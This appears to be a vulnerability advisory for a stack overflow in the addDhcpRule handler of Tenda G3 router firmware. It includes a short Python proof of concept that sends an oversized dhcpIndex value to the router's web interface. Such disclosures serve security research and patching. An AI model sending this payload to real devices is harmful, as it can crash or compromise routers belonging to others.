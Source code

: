 # Tenda G3 addDhcpRule
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the addDhcpRule function.
### Vulnerability details
In the function addDhcpRule line 27, it reads in a user-provided parameter, and the variable dhcpIndex is passed to the sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/addDhcpRule-1.png)
![](images/addDhcpRule-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addDhcpRule'
payload = {
    "dhcpIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
